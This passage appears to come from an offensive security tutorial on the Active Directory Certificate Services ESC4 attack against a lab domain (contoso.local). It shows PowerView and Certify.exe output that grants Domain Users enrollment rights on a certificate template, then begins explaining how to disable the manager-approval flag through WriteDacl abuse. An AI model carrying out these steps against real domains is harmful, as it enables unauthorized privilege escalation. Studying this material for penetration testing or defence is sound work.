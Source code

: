 ```
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Domain Users,CN=Users,DC=contoso,DC=local rights GUID
'0e10c968-78fb-11d2-90d4-00c04f79dc55' on CN=ESC4,CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
PS C:\Tools>
```

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PEND_ALL_REQUESTS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 1
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```

Now we got enrollment rights for the vulnerable certificate.


### Disabling Manager Approval Requirement
There is one more obstacle to issuing the certificate.
To get a certificate with the target template passively, we need to disable Manager Approval requirement.

To disable Manager Approval requirement, we need to set `PEND_ALL_REQUESTS` flag bit in `mspki-enrollment-flag` attribute to null.
According to [Microsoft Docs](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/ec71fd43-61c2-407b-83c9-b52272dec8a1), the `PEND_ALL_REQUESTS` flag bit is `0x00000002`. 
Abusing WriteDacl, we can set `PEND_ALL_REQUESTS` flag bit to null by `Set-DomainObject` function of PowerView:
